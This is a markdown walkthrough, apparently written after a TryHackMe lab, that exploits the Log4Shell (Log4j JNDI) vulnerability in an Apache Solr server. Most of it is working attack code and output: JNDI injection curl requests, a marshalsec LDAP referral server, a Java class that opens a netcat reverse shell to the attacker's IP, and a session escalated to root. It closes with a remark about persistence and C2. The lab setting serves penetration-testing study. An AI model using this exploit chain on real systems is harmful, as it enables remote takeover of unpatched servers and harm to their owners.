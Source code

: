 # Log4j - Exploiting a Vulnerable Apache Solar Server


### Enumerating and Analyzing target
Dashboard can seen on admin front page when navigating to the victim's web server - lots of info here.
Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well.
If identified as vulnerable from recon, the exploit is possible, else the rest of this report is null.

Note log directory...
```-Dsolr.log.dir```

### Through the actual logging from the directory, find an entry point 

With the files provided by John Hammond, notice INFO entries with repeated endpoint requests -> parameter field

### Parameter will be used as the attack vector, with payload passed as a parameter

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to allow for external resource lookup, ATTACKERADDRESS will be a listener on the kali machine.

A basic listener that will be employed:
```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but it can also possibly EXECUTE code in entry.
 - Any data logged is vulnerable --- we have identified one entry point from the logs earlier as the cores directory.
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this, what are those weird characters??? 

## Exploitation Start :o

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need a simple http server to host some files on our machine that contains the good stuff (a stage??) ;) 
```python3 -m http.server```

### Need the LDAP referral server to redirect to the HTTP server where the stager resides

Ensure marshalsec is installed via ```mvn clean package -DskipTests``` after cloning the marshalsec git repository https://github.com/mbechler/marshalsec
There may be support for newer Java verisons, but marshalsec is originally developed to be used with the Java8 JDK (8u181), found at https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

Below we start up the refserver on our local system (this server waits for a connection, and then serves the redirect to whatever exploit we have)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The refserver listens on 1389 by default (LDAP) and then forwards to 8000...

Notice the .java ? Any payload going through Log2j will be executed as Java code...

## Now we have the meat of this RCE exploit: remotely executing arbitrary code of any Java file, malicious or not.

Create a .java file in your favorite IDE or text editor with the same name as [EXPLOITHERE]:

```java

public class NotSus{

	static{
		try{
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.93 4444"); // reverse shell connects back to us
		}
		catch(Exception e){
			;        // no unnecessary noise if anything goes wrong
		}
	}

}
```
Above is a simple reverse shell java class for the payload.

Compiling: 

```sh 
$javac NotSus.java

```


# Put things together, we start setting up the delivery of a staged payload...

In separate terminals:

File server with the payload - just hosting the current directory on pt 8000.
```sh
┌──(kali㉿kali)-[~/Documents]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

listen for incoming connections from the victim - keep an eye on this ;)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ nc -lnvp 4444                
listening on [any] 4444 ...

```
rfserver that the victim will connect back to, traffic forwarded to the python file server for the Java payload.
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

# HELLO COMPUTER, YOU HAVE A DELIVERY!! ;)) 
### The crafted GET request to the endpoint that is logging - go ahead and send it!!!!!!
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?pwn=$\{jndi:ldap://10.9.1.93:1389/NotSus\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```


### nc listener - type a command and notice that we have gained full control, and can remotely do anything with our shell access
### the listener isn't the prettiest so consider sending a different payload or execute whatever java code you want

```sh
$ nc -lnvp...
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50930

whoami
solr
sudo su

whoami
root

```


## As always, from here are ways to establish persistence and C2 presence.
## Plz don't be lazy and audit your systems and commit to regular vulnerability management, this vulnerability has been disclosed for over a week now and machines EVERYWHERE are still being exploited >:(





Special thanks to John Hammond for making this simpler to understand (as always), and TryHackMe for providing the box!



